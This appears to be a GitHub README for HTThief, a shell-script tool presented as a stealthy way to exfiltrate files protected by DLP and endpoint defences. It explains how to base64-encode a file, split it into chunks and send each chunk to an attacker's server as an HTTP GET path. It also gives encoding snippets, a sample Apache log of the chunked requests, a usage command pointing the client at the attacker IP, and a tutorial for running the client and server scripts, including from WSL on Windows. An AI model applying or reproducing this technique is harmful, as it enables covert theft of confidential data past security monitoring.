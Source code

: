 # HTThief

HTThief was developed by me and it's not just another tool - it improves a unexplored data exfiltration technique, with the intention of serving as a (simple but effective) way to transfer files protected by DLP, E/XDR and etc (exfiltration) in a stealthy way. Convert any type of file (eg executables, Office, Zip, images) into URLs and send them via simple HTTP GET.


# Author
Vinicius Vieira


# Why is this different from every other HTTP exfiltration technique?

The most common data exfiltration techniques via HTTP are based on POST method (uploding files, encrypted or not). These techniques can be easily detected, either by anomalous behavior of the endpoint (uploading a file on an unknown website, for example) or even by traffic (through DLP, IDS/IPS for example), as well as being easily mitigated.

HTThief differs from the others because it encodes the raw file data in Base64 and divides it into small strings, which are passed using the GET method to the server instead of POST. Each GET calls the attacker's IP/domain plus a chunk of base64 as part of the requested address. Obviously the address does not exist in the destination, however the behavior of the client machine is similar to a user accessing a certain resource on a website rather then uploading a file.

On the server side, HTThief collects logs from received GETs, processes the data and reassembles the file in its original form.

This makes detection and mitigation very difficult, because through this process of steganography of the file in many URLs, it becomes very dificult to detect that each one is actually a piece of a certain file.

# How it works?

How HTThief works is based on two assumptions: 

1) encode the file in base64 to be sent; and
   
    ```
    ### encoding the file
    echo "Enconding the file..."
    ENCODED=$(base64 $path)
    echo $ENCODED > /tmp/ax0c.txt
    ```
    
2) divide it into pieces to make it difficult to decode the file during sending
   
    ```
    ### organizing the file
    echo "Organizating the file..."
    tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
    FILE="/tmp/ax0d.txt"
    ```
By default base64 will generate strings of 76 characters with a nullbyte (which in ASCII is understood as a space) at the end, instead of a new line (see RFC2045 and Base64 manpage). 

![h6](https://github.com/V1n1v131r4/HTThief/assets/1153876/4612fce1-19e5-4d74-90de-cb117e493545)

HTThief takes advantage of this to replace these spaces with new lines by means of ```tr -s``` and send the HTTP GET of each line of the encoded file, that is, pieces of 76 characters. 

```
tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
```

That way, even if there is some soul that decodes during tracing, this piece of code could not be identified as the original file.

```
┌──(kali㉿kali)-[~/HTThief]
└─$ cat /var/log/apache2/access.log
 
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET //9j/4QCKRXhpZgAATU0AKgAAAAgABQENAAIAAAAnAAAASgEaAAUAAAABAAAAcgEbAAUAAAABAAAA HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /egEoAAMAAAABAAIAAAITAAMAAAABAAEAAAAAAAA8P3BocCBwaHBpbmZvKCk7IF9faGFsdF9jb21w HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /aWxlcigpOyA/PgAAAAAASAAAAAEAAABIAAAAAf/bAIQAAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB/8AAEQgDIAMg HTTP/1.1" 404 432 "-" "curl/7.88.1"
```



# Usage

The use of HTThief is simple:

```
kali@kali:~ ./client.sh --ip <HTThief_Server_IP>
```

You can replace the parameter for attacker IP address or attacker domain, wherever.


# Tutorial

HTThief is based on two scripts, one to be executed on the server/attacker machine (who will receive the file) and another on the client (machine that will send the file):

```
┌──(kali㉿kali)-[~/HTThief]
└─$ ls -l
total 8
-rwxr-xr-x 1 kali kali 2681 Aug 10 09:13 client.sh
-rwxr-xr-x 1 kali kali  846 Aug 10 09:11 server.sh

```

After choosing the file to be sent, first you must run ```server.sh``` on the attacking machine:

![h1](https://github.com/V1n1v131r4/HTThief/assets/1153876/48c9c3eb-250b-429d-9b0a-9af753e87709)



On the target machine, run ```client.sh``` and fill in the absolute path of the file that should be sent:

![h2](https://github.com/V1n1v131r4/HTThief/assets/1153876/d708c3de-0553-49c5-9319-fde9c393f906)


After sending the file and **you got the "Done!" response**, go back to the attacking machine, type "yes" for the script flow to end.

**WARNING**: The larger the file, the longer the upload process takes. Be patient and wait until it is fully shipped.

At the end of receiving, choose the original extension of the file so that it is originally reassembled on the attacking machine.


![h3](https://github.com/V1n1v131r4/HTThief/assets/1153876/e3a3f84d-3f13-4908-acf9-26d5766edcb0)

![h4](https://github.com/V1n1v131r4/HTThief/assets/1153876/86d891d5-5aa2-45a0-93d2-781ac72f7277)




# Do you want to use in a Windows environment?

 
Although HTThief is written in Shell Script, it can be easily used by any user who has access to WSL in a Windows environment. Just copy the client.sh to the Linux distribution running on WSL and run it, pointing to the file you want to exfiltrate from the Windows environment.

![WhatsApp Image 2023-08-12 at 12 14 01](https://github.com/V1n1v131r4/HTThief/assets/1153876/934c839c-dc5e-47e0-ae07-c033a3319eb1)




# Requires

On attacker (server) machine you will need the Apache2 installed.



# To Do

- replace Apache2 requirenment to Go wbserver.
